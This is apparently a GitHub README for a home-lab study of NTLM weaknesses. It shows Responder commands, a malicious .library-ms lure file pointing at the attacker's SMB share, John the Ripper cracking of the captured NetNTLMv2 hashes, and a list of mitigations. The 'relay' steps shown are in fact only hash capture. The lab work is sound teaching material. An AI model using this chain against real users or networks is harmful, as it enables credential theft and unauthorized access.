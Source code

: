 # NTLM Security Research

## Overview

This repository contains a comprehensive analysis of **NTLM authentication vulnerabilities** with a focus on **NTLM relay attacks** and methods to capture and crack NTLM hashes. The tests were performed in a controlled environment using **Kali Linux** as the attacker machine and **Windows 10** in a **workgroup setup** as the target machine. This project aims to demonstrate how attackers exploit NTLM authentication flaws and how defenders can mitigate these risks.

### Objectives:
- Understand and analyze the NTLM authentication process.
- Demonstrate NTLM relay attacks and their potential impact.
- Capture NTLM hashes and explore methods for cracking them.
- Provide mitigation strategies to enhance security against NTLM-based vulnerabilities.

## Table of Contents

1. [Introduction](#introduction)
2. [Lab Setup](#lab-setup)
3. [NTLM Authentication Overview](#ntlm-authentication-overview)
4. [NTLM Relay Attack](#ntlm-relay-attack)
5. [Hash Capture and Cracking](#hash-capture-and-cracking)
6. [Mitigation Strategies](#mitigation-strategies)
7. [Conclusion](#conclusion)
8. [References](#references)

## Introduction

**NTLM (NT LAN Manager)** is a set of Microsoft security protocols used for authentication in Windows environments. While still widely used, NTLM contains several vulnerabilities that can be exploited by attackers. The goal of this research is to provide a detailed understanding of these vulnerabilities, particularly focusing on **NTLM relay attacks**, **hash capturing**, and **cracking techniques**.

This repository presents the results of practical tests conducted in a **workgroup environment** (rather than a domain-based setup), highlighting real-world security risks.

## Lab Setup

The testing environment consists of two virtual machines:
- **Kali Linux** (attacker machine)
- **Windows 10** (target machine, in a workgroup setup)

### Kali Linux Configuration:
- **IP Address**: 192.168.56.101
- **Tools**: Responder, Metasploit, John the Ripper, Hashcat

### Windows 10 Configuration:
- **IP Address**: 192.168.56.102
- **Workgroup Setup**: No Active Directory
- **NTLM Authentication**: Enabled

Both machines are connected via a **Host-Only** network to simulate an isolated, controlled testing environment.

## NTLM Authentication Overview

NTLM is an authentication protocol that uses a **challenge-response** mechanism to authenticate users. Despite being a legacy protocol, it is still in use today, often in environments where older Windows systems or configurations are required.

### NTLM Authentication Process:
1. **Client sends a request** to the server for access.
2. **Server sends a challenge** back to the client.
3. **Client sends a response** using a hashed value of the user's password.
4. **Server validates** the response and grants access if correct.

### NTLM Vulnerabilities:
- **Weak Hashing**: NTLM hashes can be easily cracked if intercepted.
- **NTLM Relay Attacks**: Attackers can intercept and relay NTLM authentication messages to gain unauthorized access.

### Types of NTLM Authentication:
- **LM Hashes**: Deprecated and very insecure.
- **NTLMv1**: Older version with known vulnerabilities.
- **NTLMv2**: More secure but still vulnerable to relay attacks if not properly configured.

## NTLM Relay Attack

### What is an NTLM Relay Attack?

An NTLM relay attack involves an attacker intercepting and relaying NTLM authentication messages between a client and a server. This allows the attacker to authenticate as the victim on other machines without needing to know their password.

### Steps for Performing an NTLM Relay Attack:

1. **Configure Responder on Kali Linux**:
   Responder listens for NTLM authentication requests on the network and can capture them.
   ```bash
   sudo responder -I eth0
   ```

2. **Create Malicious `.library-ms` File**:
   This file can be used to trick the victim into sending NTLM authentication requests.
   ```xml
   <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
     <name>SharedDocs</name>
     <version>6</version>
     <isLibraryPinned>true</isLibraryPinned>
     <iconReference>imageres.dll,-1003</iconReference>
     <templateInfo>
       <folderType>Documents</folderType>
     </templateInfo>
     <searchConnectorDescriptionList>
       <searchConnectorDescription>
         <simpleLocation>
           <url>\\192.168.56.101\anything</url>
         </simpleLocation>
       </searchConnectorDescription>
     </searchConnectorDescriptionList>
   </libraryDescription>
   ```

3. **Capture NTLM Hashes**:
   When the victim interacts with the malicious file, Responder captures their NTLM hash.

4. **Crack NTLM Hash**:
   Use **John the Ripper** or **Hashcat** to crack the captured hash.
   ```bash
   john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
   ```

---

## Hash Capture and Cracking

In this section, the process of capturing NTLM hashes and cracking them using tools like **John the Ripper** and **Hashcat** is demonstrated.

### Steps for Capturing NTLM Hashes:
1. **Run Responder**:
   ```bash
   sudo responder -I eth0
   ```

2. **Crack the Captured Hashes**:
   - Hashes are saved in the `/usr/share/responder/logs` directory.
   - Use **John the Ripper** for cracking:
   ```bash
   john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
   ```

---

## Mitigation Strategies

### How to Protect Against NTLM Relay Attacks:
1. **Disable NTLM**: Use **Kerberos** authentication instead of NTLM whenever possible.
   - Configure **Group Policies** to disable NTLM or enforce **NTLMv2**.

2. **Enforce SMB Signing**: Require SMB signing to protect against tampering with SMB traffic.

3. **Use Network Segmentation**: Isolate critical systems to reduce the attack surface.

4. **Deploy Multi-Factor Authentication (MFA)**: Add an additional layer of security to authentication processes.

5. **Update Systems Regularly**: Ensure that Windows systems are patched with the latest security updates to protect against known vulnerabilities.

---

## Conclusion

This repository provides a detailed demonstration of **NTLM relay attacks**, capturing **NTLM hashes**, and cracking them using popular tools. By understanding these vulnerabilities, organizations can take appropriate steps to mitigate the risks associated with NTLM authentication.

## References

- [NTLM Relay Attack Overview](https://www.semperis.com/blog/how-to-defend-against-ntlm-relay-attack/)
- [Responder GitHub Repository](https://github.com/SpiderLabs/Responder)
- [John the Ripper Documentation](https://www.openwall.com/john/)
- [Microsoft Security Documentation](https://docs.microsoft.com/en-us/security-updates)
